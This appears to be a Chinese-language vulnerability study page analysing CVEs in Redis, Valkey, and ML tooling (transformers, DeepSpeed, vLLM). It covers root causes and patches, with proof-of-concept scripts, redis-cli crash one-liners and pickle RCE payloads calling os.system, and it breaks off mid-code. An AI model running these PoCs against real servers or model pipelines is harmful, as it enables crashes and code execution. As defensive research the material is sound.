

## Top K 代码漏洞

机器人操作系统漏洞：
```
2024 年曝光的 CVE-2024-39835 漏洞（ROS roslaunch 代码注入
漏洞），允许攻击者通过构造特殊启动参数，在目标机器人上执行任
意代码，影响 ROS Noetic 及更早版本的所有应用场景。

CVE-2024-25198（使用后释放漏洞）可能导致机器人控制系统内存溢
出，引发机械臂突然停滞或误动作；CVE-2024-25199（缓冲区溢出漏
洞）则可能被利用发起拒绝服务攻击，使自动驾驶车辆的感知数据处
理模块瘫痪。
```

### 一、OOB（Out-of-bounds）

#### 1.Redis hllMerge栈溢出

HyperLogLog是Redis为基数统计场景设计的命令组，特别的，在底层实现上HyperLogLog只是另一个具有自己自定义编码的字符串。

一个编码的HyperLogLog由2个部分组成：
1. HLL头部，除了包括指示类型的魔数，encoding指定HLL是稀疏编码还是稠密编码。
2. 寄存器数组

```c
struct hllhdr {
    char magic[4];      /* "HYLL" */
    uint8_t encoding;   /* HLL_DENSE or HLL_SPARSE. */
    uint8_t notused[3]; /* Reserved for future use, must be zero. */
    uint8_t card[8];    /* Cached cardinality, little endian. */
    uint8_t registers[]; /* Data bytes. */
};
```

在只有少量寄存器有值的场景中，寄存器数组常采用稀疏编码模式，稀疏模式可以极大地压缩空间，这对内存型数据库的 Redis 来说，非常重要。

稀疏模式有3种实现，将所有寄存器的值进行编码：
1. ZERO：00xxxxxx， 2bit（00）是前缀，6bit 表示连续0的长度。
2. XZERO：01xxxxxx yyyyyyyy，2bit（01）是前缀，14bit 表示连续0的长度，最多可以表示 16384个。
3. VAL：1vvvvvxx，1bit（1）是前缀，5bit 表示要设成的值，2bit 表示非 0 值的连续长度。

在Redis中，HyperLogLog类型的key可以由set指令构造：

``` shell
127.0.0.1:6379> set key "HYLL\x01\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00"
```

CVE-2025-32023[^]的PoC：
根据HyperLogLog值的结构，set命令构造稀疏编码的恶意值，pfcount命令触发漏洞：

``` python
import redis

r = redis.Redis('localhost', 6379)

def p8(v):
  return bytes([v])

def xzero(sz):
  assert 1 <= sz <= 0x4000
  sz -= 1
  return p8(0b01_000000 | (sz >> 8)) + p8(sz & 0xff)

HLL_SPARSE = 1

pl = b'HYLL'
pl += p8(HLL_SPARSE) + p8(0)*3
pl += p8(0)*8                   
                                
pl += xzero(0x4000) * 0x20000   # 2^14 * 2^17 = 2^31 > int
pl += p8(0b1_11111_11)          # runlen = 4, regval = 0x20

key = 'hll'

r.set(key,pl)
r.pfcount(key,key)
```

PoC触发了栈溢出，发生在src/hyperloglog.c:1090，hllMerge函数中。

``` shell
==24828==ERROR: AddressSanitizer: unknown-crash on address 0x0000800f7000 at pc 0x7f7869b29956 bp 0x7ffffc994bb0 sp 0x7ffffc994370
READ of size 1048576 at 0x0000800f7000 thread T0
#7 0x55c685e42202 in hllMerge /opt/redis-7.4.2/src/hyperloglog.c:1090
#8 0x55c685e42faf in pfcountCommand /opt/redis-7.4.2/src/hyperloglog.c:1237
#9 0x55c685c9cac4 in call /opt/redis-7.4.2/src/server.c:3575
#10 0x55c685ca0a1f in processCommand /opt/redis-7.4.2/src/server.c:4206
#11 0x55c685ce0524 in processCommandAndResetClient /opt/redis-7.4.2/src/networking.c:2505
#12 0x55c685ce0a70 in processInputBuffer /opt/redis-7.4.2/src/networking.c:2613
#13 0x55c685ce1aac in readQueryFromClient /opt/redis-7.4.2/src/networking.c:2759
#14 0x55c685ef4b84 in callHandler /opt/redis-7.4.2/src/connhelpers.h:58
#15 0x55c685ef605d in connSocketEventHandler /opt/redis-7.4.2/src/socket.c:277
#16 0x55c685c6d67d in aeProcessEvents /opt/redis-7.4.2/src/ae.c:417
#17 0x55c685c6dd70 in aeMain /opt/redis-7.4.2/src/ae.c:477
#18 0x55c685cb333e in main /opt/redis-7.4.2/src/server.c:7251
#19 0x7f7869797c89 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
#20 0x7f7869797d44 in __libc_start_main_impl ../csu/libc-start.c:360
#21 0x55c685c5d970 in _start (/opt/redis-7.4.2/src/redis-server+0x141970) (BuildId: 4c01fa06e4e20630da155ad71a32d246a59b021b)
```

漏洞成因：
在src/hyperloglog.c:1090，hllMerge函数中，在寄存器数组迭代时需要将每个稀疏表示的运行长度相加，导致int i中计算的总长度发生溢出。这允许攻击者覆盖HLL结构上的负偏移量，导致堆栈/堆上的越界写，这取决于HLL结构来自何处（例如，hllMerge（）采用堆栈分配的，hllSparseToDense（）采用堆分配的）。

以发生栈溢出的hllMerge函数为例，VAL编码逻辑中作了溢出break处理，但是ZERO和XZERO却没有。于是PoC首先构造了$2^{17}$个XZERO编码的块，每个块的runlen均置为$2^{14}$，在所有XZERO块处理结束之后，int类型的局部变量i发生了溢出（$2^{31}-1$），即整型溢出，最后在处理VAL编码块时绕过了溢出判断，导致了max数组处的栈溢出。

```c
int hllMerge(uint8_t *max, robj *hll) {

    int i;
    ...
    } else {
        uint8_t *p = hll->ptr, *end = p + sdslen(hll->ptr);
        long runlen, regval;

        p += HLL_HDR_SIZE;
        i = 0;
        while(p < end) {
            if (HLL_SPARSE_IS_ZERO(p)) {
                runlen = HLL_SPARSE_ZERO_LEN(p);
                i += runlen;
                p++;
            } else if (HLL_SPARSE_IS_XZERO(p)) {
                runlen = HLL_SPARSE_XZERO_LEN(p);
                i += runlen;
                p += 2;
            } else {
                runlen = HLL_SPARSE_VAL_LEN(p);
                regval = HLL_SPARSE_VAL_VALUE(p);
                if ((runlen + i) > HLL_REGISTERS) break; 
                /* src/hyperloglog.c:1090 栈溢出 */
                while(runlen--) {
👉                  if (regval > max[i]) max[i] = regval;
                    i++;
                }
                p++;
            }
        }
        if (i != HLL_REGISTERS) return C_ERR;
    }
    return C_OK;
}
```

补丁：
补丁在ZERO编码和XZERO编码处理逻辑中，均加入了溢出判断，阻止了整型溢出。

```c
int hllMerge(uint8_t *max, robj *hll) {

     int i;
     ...
    } else {
         uint8_t *p = hll->ptr, *end = p + sdslen(hll->ptr);
         long runlen, regval;
+        int valid = 1;
 
         p += HLL_HDR_SIZE;
         i = 0;
         while(p < end) {
             if (HLL_SPARSE_IS_ZERO(p)) {
                 runlen = HLL_SPARSE_ZERO_LEN(p);
+                if ((runlen + i) > HLL_REGISTERS) { /* Overflow. */
+                    valid = 0;
+                    break;
+                }
                 i += runlen;
                 p++;
             } else if (HLL_SPARSE_IS_XZERO(p)) {
                 runlen = HLL_SPARSE_XZERO_LEN(p);
+                if ((runlen + i) > HLL_REGISTERS) { /* Overflow. */
+                    valid = 0;
+                    break;
+                }
                 i += runlen;
                 p += 2;
             } else {
                 runlen = HLL_SPARSE_VAL_LEN(p);
                 regval = HLL_SPARSE_VAL_VALUE(p);
-                if ((runlen + i) > HLL_REGISTERS) break; /* Overflow. */
+                if ((runlen + i) > HLL_REGISTERS) { /* Overflow. */
+                    valid = 0;
+                    break;
+                }
                 while(runlen--) {
                     if (regval > max[i]) max[i] = regval;
                     i++;
                }
                 p++;
             }
         }
-        if (i != HLL_REGISTERS) return C_ERR;
+        if (!valid || i != HLL_REGISTERS) return C_ERR;
     }
     return C_OK;
 }
```

#### 2.Redis ldbRedis堆溢出

Lua使用一个虚拟栈向C传递值，栈中的每个元素代表一个Lua值（nil、number、string等）。每当Lua调用C时，被调用的函数会获得一个新的栈，它独立于之前的栈和仍然处于活动状态的C函数栈。该栈最初包含C函数的任何参数，C函数将其结果返回给调用者。
在Redis中，Lua脚本可以使用redis.call和redis.pcall调用redis的C函数，比如:
``` shell
src/redis-cli eval "return redis.call('set','foo','bar')" 0
```

CVE-2021-32626[^]的补丁：
由于没有公开的PoC，首先分析redis补丁[^https://github.com/redis/redis/pull/9591]，来推导出PoC。官方解释有三种情况会爆栈：
1. 在luaReplyToRedisReply 中，可能会返回一个嵌套的应答。
2. 在redisProtocolToLuaType上，Redis的回复可能足够深。(注意，目前还没有这样的命令，但模块可以这样做)
3. 在ldbRedis 上，可能会给出一个参数足够多的命令。

以ldbRedis为例，在函数逻辑之前加上了栈检查，初步判断后续的逻辑导致了爆栈。

``` c
src/scripting.c
@@ -2591,2 +2591,13 @@
void ldbRedis(lua_State *lua, sds *argv, int argc) {
    int j, saved_rc = server.lua_replicate_commands;

+    if (!lua_checkstack(lua, argc + 1)) {
+        /* Increase the Lua stack if needed to make sure there is enough room
+         * to push 'argc + 1' elements to the stack. On failure, return error.
+         * Notice that we need, in worst case, 'argc + 1' elements because we push all the arguments
+         * given by the user (without the first argument) and we also push the 'redis' global table and
+         * 'redis.call' function so:
+         * (1 (redis table)) + (1 (redis.call function)) + (argc - 1 (all arguments without the first)) = argc + 1*/
+        ldbLogRedisReply("max lua stack reached");
+        return;
+    }
+
    lua_getglobal(lua,"redis");
```

漏洞成因：
分析补丁前的ldbRedis逻辑，可以判断lua_pushlstring将所有参数压栈，导致了堆溢出。
``` c
void ldbRedis(lua_State *lua, sds *argv, int argc) {
    int j, saved_rc = server.lua_replicate_commands;

    lua_getglobal(lua,"redis");
    lua_pushstring(lua,"call");
    lua_gettable(lua,-2);       /* Stack: redis, redis.call */
    for (j = 1; j < argc; j++)
        // 堆溢出
👉      lua_pushlstring(lua,argv[j],sdslen(argv[j]));
    ldb.step = 1;               /* Force redis.call() to log. */
    server.lua_replicate_commands = 1;
    lua_pcall(lua,argc-1,1,0);  /* Stack: redis, result */
    ldb.step = 0;               /* Disable logging. */
    server.lua_replicate_commands = saved_rc;
    lua_pop(lua,2);             /* Discard the result and clean the stack. */
}
```
追踪ldbRedis的调用链，发现它并不是redis-cli的一个功能，而是作为ldb的一个命令实现的。在调用redis命令时传递超长参数即可触发漏洞。
``` c
int ldbRepl(lua_State *lua) {
    sds *argv;
    int argc;

    /* We continue processing commands until a command that should return
     * to the Lua interpreter is found. */
    while(1) {

        ...
        
        /* Execute the command. */
        if (!strcasecmp(argv[0],"h") || !strcasecmp(argv[0],"help")) {
            ...
        } else if (!strcasecmp(argv[0],"s") || !strcasecmp(argv[0],"step") ||
                   !strcasecmp(argv[0],"n") || !strcasecmp(argv[0],"next")) {
            ldb.step = 1;
            break;

        ...

        } else if (argc > 1 &&
                   (!strcasecmp(argv[0],"r") || !strcasecmp(argv[0],"redis"))) {
            // ldb的一个命令
👉          ldbRedis(lua,argv,argc);
            ldbSendLogs();
        ...
    }
    ...
}
```

PoC：
根据上述分析，通过反复尝试发现，40个参数即可触发漏洞，构造PoC如下：
``` python
import pexpect

cli = "src/redis-cli --ldb --eval rand.lua"
proc = pexpect.spawn(cli)
proc.expect("debugger>")

cmd = "redis"
arg = " 1"
num = 40
for i in range(num):
    cmd += arg

proc.sendline(cmd)
proc.interact()
```
ASAN追踪漏洞，与上述分析一致。
``` shell
=43633==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x517000000350 at pc 0x562ff46d6e35 bp 0x7ffd931e6920 sp 0x7ffd931e6918
WRITE of size 8 at 0x517000000350 thread T0
#0 0x562ff46d6e34 in lua_pushlstring /opt/redis-6.2.5/deps/lua/src/lapi.c:448
#1 0x562ff45e44f6 in ldbRedis /opt/redis-6.2.5/src/scripting.c:2563
#2 0x562ff45e551a in ldbRepl /opt/redis-6.2.5/src/scripting.c:2694
#3 0x562ff45e5c5b in luaLdbLineHook /opt/redis-6.2.5/src/scripting.c:2767
#4 0x562ff46e1ae2 in luaD_callhook /opt/redis-6.2.5/deps/lua/src/ldo.c:198
#5 0x562ff4702bce in traceexec /opt/redis-6.2.5/deps/lua/src/lvm.c:75
#6 0x562ff4706057 in luaV_execute /opt/redis-6.2.5/deps/lua/src/lvm.c:394
#7 0x562ff46e3ad4 in luaD_call /opt/redis-6.2.5/deps/lua/src/ldo.c:378
#8 0x562ff46d9884 in f_call /opt/redis-6.2.5/deps/lua/src/lapi.c:800
#9 0x562ff46e0bdd in luaD_rawrunprotected /opt/redis-6.2.5/deps/lua/src/ldo.c:116
#10 0x562ff46e4728 in luaD_pcall /opt/redis-6.2.5/deps/lua/src/ldo.c:464
#11 0x562ff46d9a8e in lua_pcall /opt/redis-6.2.5/deps/lua/src/lapi.c:821
#12 0x562ff45de99d in evalGenericCommand /opt/redis-6.2.5/src/scripting.c:1598
#13 0x562ff45e175b in evalGenericCommandWithDebugging /opt/redis-6.2.5/src/scripting.c:2030
#14 0x562ff45df254 in evalCommand /opt/redis-6.2.5/src/scripting.c:1699
#15 0x562ff44b79a5 in call /opt/redis-6.2.5/src/server.c:3717
```

### 四、空指针解引用

#### 1.Valkey ACLLoadFromFile空指针解引用

valkey/issues/1832[^https://github.com/valkey-io/valkey/issues/1832]的PoC：
复制一个server，作为replica。在replica中执行ACL LOAD命令会触发crash。

``` shell
# 复制server
src/valkey-server --port 6379 --aclfile 1.acl
src/valkey-server --port 6380 --replicaof "localhost 6379" --aclfile 1.acl
# 恢复ACL
src/valkey-cli -p 6380
127.0.0.1:6380 > ACL LOAD
```
issue中提到，Redis中不存在该漏洞。我们可以提出假设，Valkey在ACL LOAD命令函数中进行了改动，改动的代码引发了issue中的问题。

漏洞成因：
diff二者的acl.c文件，在ACLLoadFromFile函数中，可以看到漏洞的成因。删除的if语句明确注释到，user在某种状况下可能为NULL，接下来需要验证，这项改动是否是成因。

``` c
src/acl.c
sds ACLLoadFromFile(const char *filename) {
    FILE *fp;
    char buf[1024];
    ...
    listIter li;
    listNode *ln;
    listRewind(server.clients,&li);

    while ((ln = listNext(&li)) != NULL) {
        client *c = listNodeValue(ln);
-       /* a MASTER client can do everything (and user = NULL) so we can skip it */
-       if (c->flags & CLIENT_MASTER)
-           continue;
        user *original = c->user;
        list *channels = NULL;
        // crash
        user *new = ACLGetUserByName(c->user->name, sdslen(c->user->name));
           ...
        }
}
```

ASAN追踪漏洞，可以验证Valkey的不严谨改动导致了crash。

``` shell
==7633==ERROR: AddressSanitizer: unknown-crash on address 0x0000800f7000 at pc 0x7f904fb78956 bp 0x7ffde41381b0 sp 0x7ffde4137970
READ of size 1048576 at 0x0000800f7000 thread T0
#0 0x7f904fb78955 in memcpy ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors_memintrinsics.inc:115
#1 0x55c5adc29a59 in memtest_preserving_test /opt/redis-7.4.2/src/memtest.c:296
#2 0x55c5adbe15cb in memtest_test_linux_anonymous_maps /opt/redis-7.4.2/src/debug.c:2157
#3 0x55c5adbe17d4 in doFastMemoryTest /opt/redis-7.4.2/src/debug.c:2198
#4 0x55c5adbe2af6 in printCrashReport /opt/redis-7.4.2/src/debug.c:2408
#5 0x55c5adbe242b in sigsegvHandler /opt/redis-7.4.2/src/debug.c:2328
#6 0x7f904f7fc57f  (/lib/x86_64-linux-gnu/libc.so.6+0x3d57f) (BuildId: 2e01923fea4ad9f7fa50fe24e0f3385a45a6cd1c)
#7 0x55c5add08afd in ACLLoadFromFile /opt/redis-7.4.2/src/acl.c:2444
#8 0x55c5add0c582 in aclCommand /opt/redis-7.4.2/src/acl.c:2990
#9 0x55c5adabaac4 in call /opt/redis-7.4.2/src/server.c:3575
#10 0x55c5adabea1f in processCommand /opt/redis-7.4.2/src/server.c:4206
#11 0x55c5adafe524 in processCommandAndResetClient /opt/redis-7.4.2/src/networking.c:2505
#12 0x55c5adafea70 in processInputBuffer /opt/redis-7.4.2/src/networking.c:2613
#13 0x55c5adaffaac in readQueryFromClient /opt/redis-7.4.2/src/networking.c:2759
#14 0x55c5add12b84 in callHandler /opt/redis-7.4.2/src/connhelpers.h:58
#15 0x55c5add1405d in connSocketEventHandler /opt/redis-7.4.2/src/socket.c:277
#16 0x55c5ada8b67d in aeProcessEvents /opt/redis-7.4.2/src/ae.c:417
#17 0x55c5ada8bd70 in aeMain /opt/redis-7.4.2/src/ae.c:477
#18 0x55c5adad133e in main /opt/redis-7.4.2/src/server.c:7251
```

补丁：
Valkey直接对c->user进行判空。

``` c
src/acl.c

sds ACLLoadFromFile(const char *filename) {
    FILE *fp;
    char buf[1024];
    ...
    listIter li;
    listNode *ln;
    listRewind(server.clients,&li);

    while ((ln = listNext(&li)) != NULL) {
        client *c = listNodeValue(ln);
+       /* Some clients, e.g. the one from the primary to replica, don't have a user
+        * associated with them. */
+       if (!c->user) continue;
        user *original = c->user;
        list *channels = NULL;
        // crash
        user *new = ACLGetUserByName(c->user->name, sdslen(c->user->name));
           ...
        }
}
```

### 五、整数类型

#### 1.Redis lua_bit取反INT_MIN

以tohex功能为例，tohex将第一个参数转换为十六进制字符串，十六进制的位数由可选的第二个参数的绝对值给出。

``` c
y = bit.tohex(x [,n])
```

CVE-2024-31449的PoC：
公开PoC来自一篇博客[^https://redrays.io/blog/redis-cve-2024-31449-how-to-reproduce-and-mitigate-the-vulnerability/]，构造一个lua脚本，恶意调用bit.tohex即可触发服务器端的崩溃。

``` shell
src/redis-cli eval "return bit.tohex(1, -2147483648)" 0
```
ASAN追踪漏洞，可以发现PoC在lua_bit.c:137引发了崩溃。

``` shell
==11282==ERROR: AddressSanitizer: unknown-crash
#7 0x556b84e5e2ef in bit_tohex /opt/redis-7.2.0/deps/lua/src/lua_bit.c:137
#8 0x556b84e1c7bd in luaD_precall /opt/redis-7.2.0/deps/lua/src/ldo.c:320
#9 0x556b84e3f790 in luaV_execute /opt/redis-7.2.0/deps/lua/src/lvm.c:614
#10 0x556b84e1dda4 in luaD_call /opt/redis-7.2.0/deps/lua/src/ldo.c:378
#11 0x556b84e1af11 in luaD_rawrunprotected /opt/redis-7.2.0/deps/lua/src/ldo.c:116
#12 0x556b84e1e292 in luaD_pcall /opt/redis-7.2.0/deps/lua/src/ldo.c:464
#13 0x556b84e14d65 in lua_pcall /opt/redis-7.2.0/deps/lua/src/lapi.c:827
#14 0x556b84ddbdbc in luaCallFunction /opt/redis-7.2.0/src/script_lua.c:1659
#15 0x556b84cd6cf2 in evalGenericCommand /opt/redis-7.2.0/src/eval.c:536
#16 0x556b84cd6eb0 in evalCommand /opt/redis-7.2.0/src/eval.c:546
#17 0x556b84b8c571 in call /opt/redis-7.2.0/src/server.c:3519
```

漏洞成因：
定位到lua_bit.c:137，漏洞产生于bit_tohex函数中，栈溢出发生在对 buf[8] 的写入，可以断定该漏洞是由于整型 n 的溢出而触发的。

``` c
deps/lua/src/lua_bit.c
static int bit_tohex(lua_State *L)
{
    UBits b = barg(L, 1);
    SBits n = lua_isnone(L, 2) ? 8 : (SBits)barg(L, 2);
    const char *hexdigits = "0123456789abcdef";
    char buf[8];
    int i;

    // 整型溢出
👉  if (n < 0) { n = -n; hexdigits = "0123456789ABCDEF"; }
    if (n > 8) n = 8;

    // 栈溢出，lua_bit.c:137
👉  for (i = (int)n; --i >= 0; ) { buf[i] = hexdigits[b & 15]; b >>= 4; }

    lua_pushlstring(L, buf, (size_t)n);
    return 1;
}
```

之前提到了tohex功能函数接收两个参数。实现在bit_tohex函数中，那么第一个参数传递给 b ，第二个参数传递给 n 。SBits和UBits是int32无符号数和带符号数的类型定义。考虑到 n 的各种情况，函数对 n 进行了判断，希望将其限制在 [0,8]，但是忽略了特殊情况：-2147483648。
-2147483648是INT32_MIN，如果一个int32变量等于INT32_MIN，在其上的取负操作并不会转换成INT32_MAX，而是不变。因此INT32_MIN绕过了 if (n > 8) 的判断逻辑，导致了栈溢出。

补丁：
补丁版本对 n 进行了判断，如果等于INT32_MIN，则加1。

``` c
--- lua_bit.c	2023-08-15 05:38:36.000000000 -0400
+++ lua_bit_patch.c	2024-10-02 15:04:05.000000000 -0400
@@ -128,14 +128,15 @@
 static int bit_tohex(lua_State *L)
 {
   UBits b = barg(L, 1);
   SBits n = lua_isnone(L, 2) ? 8 : (SBits)barg(L, 2);
   ...
   // 补丁
+  if (n == INT32_MIN) n = INT32_MIN+1;
   if (n < 0) { n = -n; hexdigits = "0123456789ABCDEF"; }
   if (n > 8) n = 8;
   ...
```

#### 2.Redis strbuf符号转换

lua_cjson是对cjson的lua实现，通过cjson.encode和cjson.decode两个功能函数来序列化和反序列化Lua对象。

CVE-2022-24834的PoC：
公开PoC来自披露者的博客[^https://ricercasecurity.blogspot.com/2023/07/fuzzing-farm-4-hunting-and-exploiting-0.html]，对于cjson功能，需要构造一个大小为 (2^31 - 2)/6 的字符串来触发堆溢出。
``` shell
src/redis-cli eval "local str = string.rep('a',(0x80000000 - 2) / 6); cjson.encode(str) " 0
```
ASAN追踪漏洞，发现在strbuf.h:124触发了堆溢出。
``` shell
==22686==ERROR: AddressSanitizer: heap-buffer-overflow
#0 0x560308715d25 in strbuf_append_char_unsafe /opt/redis-7.0.11/deps/lua/src/strbuf.h:124
#1 0x560308715d25 in json_append_string /opt/redis-7.0.11/deps/lua/src/lua_cjson.c:484
#2 0x56030871a0c9 in json_encode /opt/redis-7.0.11/deps/lua/src/lua_cjson.c:723
#3 0x5603086dfafd in luaD_precall /opt/redis-7.0.11/deps/lua/src/ldo.c:320
#4 0x560308702b88 in luaV_execute /opt/redis-7.0.11/deps/lua/src/lvm.c:593
#5 0x5603086e10e4 in luaD_call /opt/redis-7.0.11/deps/lua/src/ldo.c:378
#6 0x5603086de251 in luaD_rawrunprotected /opt/redis-7.0.11/deps/lua/src/ldo.c:116
#7 0x5603086e15d2 in luaD_pcall /opt/redis-7.0.11/deps/lua/src/ldo.c:464
#8 0x5603086d80a5 in lua_pcall /opt/redis-7.0.11/deps/lua/src/lapi.c:827
#9 0x5603086a120c in luaCallFunction /opt/redis-7.0.11/src/script_lua.c:1678
#10 0x56030859f4dd in evalGenericCommand /opt/redis-7.0.11/src/eval.c:553
#11 0x56030859f6c1 in evalCommand /opt/redis-7.0.11/src/eval.c:563
#12 0x56030844c8c4 in call /opt/redis-7.0.11/src/server.c:3385
```

漏洞成因：
首先分析cjson的堆溢出。定位到strbuf.h:124，可以发现溢出发生在类型为strbuf_t的变量中。
``` c
deps/lua/src/strbuf.h
static inline void strbuf_append_char_unsafe(strbuf_t *s, const char c)
{
     // 堆溢出，strbuf.h:124
👉   s->buf[s->length++] = c;
}
```
再向上追踪，发现lua_cjson.c:484调用了触发堆溢出的strbuf_append_char_unsafe。json作为第一个参数传递给strbuf_append_char_unsafe，发生了溢出。再往上寻找作用于json的代码逻辑，发现调用了strbuf_ensure_empty_length来保证长度正确，初步判断是这里发生了整型溢出。
``` c
deps/lua/src/lua_cjson.c
static void json_append_string(lua_State *l, strbuf_t *json, int lindex)
{
    const char *escstr;
    int i;
    const char *str;
    size_t len;

    str = lua_tolstring(l, lindex, &len);
    // 整型溢出
👉   strbuf_ensure_empty_length(json, len * 6 + 2);

    strbuf_append_char_unsafe(json, '\"');
    for (i = 0; i < len; i++) {
        escstr = char2escape[(unsigned char)str[i]];
        if (escstr)
            strbuf_append_string(json, escstr);
        else
            // 调用触发了堆溢出，lua_cjson.c:484
        👉   strbuf_append_char_unsafe(json, str[i]);
    }
    strbuf_append_char_unsafe(json, '\"');
}
```

查看strbuf_ensure_empty_length，发现原本是size_t类型的len运算之后，作为第二个参数以int类型传递，确认发生了整型溢出。

``` c
deps/lua/src/strbuf.h
                                                             // 整型溢出
static inline void strbuf_ensure_empty_length(strbuf_t *s, 👉 int len)
{
    if (len > strbuf_empty_length(s))
        strbuf_resize(s, s->length + len);
}
```
当构造的字符串大小为 (2^31 - 2)/6 时，len的符号位置1，导致了后续的堆溢出。

补丁：
cjson统一使用size_t传递参数，同时增加溢出判断。
``` c
--- lua_cjson.c	2023-04-17 08:54:03.000000000 -0400
+++ lua_cjson_patch.c	2023-07-10 07:39:42.000000000 -0400
@@ -473,6 +474,8 @@ static void json_append_string(lua_State *l, strbuf_t *json, int lindex)
 
    ...

+   if (len > SIZE_MAX / 6 - 3)
+       abort(); /* Overflow check */
 
    strbuf_ensure_empty_length(json, len * 6 + 2);
 
    strbuf_append_char_unsafe(json, '\"');
```
``` c
--- strbuf.h	2023-04-17 08:54:03.000000000 -0400
+++ strbuf_patch.h	2023-07-10 07:39:42.000000000 -0400
- static inline void strbuf_ensure_empty_length(strbuf_t *s, int len)
+ static inline void strbuf_ensure_empty_length(strbuf_t *s, size_t len)
```

### 七、反序列化

#### 1.pickle.load()反序列化

引用：Hugging Worms[^1]
针对的目标：RA 的 序列化格式
 Pickle（目标）
 Protobuf
 MsgPack
 Avro
 Cap’n’proto
 Safesensors
漏洞类型：反序列化导致RCE
挖掘方法：

SAST污点分析
从path 到 pickle.load()

漏洞原理：

pickletools.dis用于将pickle形式转换成易读的形式。
对于存在漏洞的函数，恶意构造的pickle文件可以直接导致RCE。

1. load_build函数

``` python
def load_build(self):
    stack = self.stack
    state = stack.pop()
    inst = stack[-1]
    setstate = getattr(inst, "__setstate__", None)
    if setstate is not None:
        setstate(state)
        return
```

2. load_reduce函数
```python
def load_reduce(self):
    stack = self.stack
    args = stack.pop()
    func = stack[-1]
    stack[-1] = func(*args)
dispatch[REDUCE[0]] = load_reduce
```

漏洞示例：
https://github.com/huggingface/transformers/blob/v4.34.1/src/transformers/models/maskformer/convert_maskformer_swin_to_pytorch.py

```python
@torch.no_grad()
def convert_maskformer_checkpoint(
    model_name: str, checkpoint_path: str, pytorch_dump_folder_path: str, push_to_hub: bool = False
):
    """
    Copy/paste/tweak model's weights to our MaskFormer structure.
    """
    config = get_maskformer_config(model_name)

    # load original state_dict
    with open(checkpoint_path, "rb") as f:
        data = pickle.load(f)
    state_dict = data["model"]
```

pickle.load()不安全，而checkpoint_path是用户控制的。

漏洞验证：
构造pickle字符串：
```
b'\x80\x03cposix\ns
 ystem\nq\x00X\x0c\
 x00\x00\x00touch 
HACKEDq\x01\x85q\
 x02Rq\x03.'
```

反序列化后：
```python
def __reduce__(self):
 return (os.system, ('touch HACKED',))
```
绕过HF Picklescan黑白橙名单方法：
1. 代码复用，使用白橙函数作为gadget
2. 格式编码，pickle数据使用base64编码

学习目的：从 RA 中找到类似的漏洞，追踪补丁。

#### 2.pickle.loads()反序列化

引用：Vulnerable Tooling Suites[^2]
漏洞类型：反序列化导致RCE
针对的目标：存在漏洞的 python 业务代码
学习目的：漏洞可能存在于ROSA的MLOps，AgentOps。学习漏洞的触发逻辑，补丁。

deepspeed存在反序列化漏洞
https://github.com/deepspeedai/DeepSpeed/blob/10ba3dde84d00742f3635c48db09d6eccf0ec8bb/deepspeed/runtime/pipe/p2p.py#L136
```python
def recv_obj(sender: int) -> typing.Any:
    """Receive an arbitrary python object from ``sender``.

    WARN: This incur a CPU <-> GPU transfers and should be used sparingly
    for performance reasons.

    Args:
        sender (int): The rank sending the message.
    """
    # Get message meta
    length = torch.tensor([0], dtype=torch.long).to(get_accelerator().device_name())
    dist.recv(length, src=sender)

    # Receive and deserialize
    msg = torch.empty(length.item(), dtype=torch.uint8).to(get_accelerator().device_name())
    dist.recv(msg, src=sender)

    msg = pickle.loads(msg.cpu().numpy().tobytes())
```
poc：
msg是可控的，构造msg=payload()
```python
class payload():
    def __reduce__(self):
        return (__import__('os').system, ("touch /tmp/hacked",))
```

#### 3.torch.load(...,weights_only=True)反序列化

引用：Safe Harbor or Hostile Waters[^3]
学习目的：漏洞类型、补丁

pytorch考虑到pickle的安全性，引入 weights_only=True 参数只加载模型的权重，然而存在 CVE-2025-32434 在设置参数的情况下可以 RCE。
https://github.com/pytorch/pytorch/blob/release/2.6/torch/serialization.py#L1440 的补丁，不允许torchscript传给 weights_only=True 的 torch.load()：
```python
with _open_zipfile_reader(opened_file) as opened_zipfile:
    if _is_torchscript_zip(opened_zipfile):
        warnings.warn(
        "'torch.load' received a zip file that looks like a TorchScript archive"
        " dispatching to 'torch.jit.load' (call 'torch.jit.load' directly to"
        " silence this warning)",
        UserWarning,
        )
        if weights_only:
            raise RuntimeError(
            "Cannot use ``weights_only=True`` with TorchScript archives passed to "
            "``torch.load``. " + UNSAFE_MESSAGE
            )
```

1. vllm使用了低于 pytorch 2.6 版本而存在漏洞。
存在漏洞的地方,https://github.com/vllm-project/vllm/blob/v0.7.3/vllm/model_executor/model_loader/weight_utils.py#L448：
```python
def pt_weights_iterator(
    hf_weights_files: List[str]
) -> Generator[Tuple[str, torch.Tensor], None, None]:
    """Iterate over the weights in the model bin/pt files."""
    enable_tqdm = not torch.distributed.is_initialized(
    ) or torch.distributed.get_rank() == 0
    for bin_file in tqdm(
            hf_weights_files,
            desc="Loading pt checkpoint shards",
            disable=not enable_tqdm,
            bar_format=_BAR_FORMAT,
    ):
        state = torch.load(bin_file, map_location="cpu", weights_only=True)
        yield from state.items()
        del state
```
poc：
利用下面代码构造bin_file，通过self.items()登记items函数，触发yield from state.items()。
```python
import torch
import torch.nn as nn

class SimpleModel(nn.Module):
    def init(self):
        super(SimpleModel, self).init()
    def items(self):
        torch.save("test\n", "/tmp/1.txt")
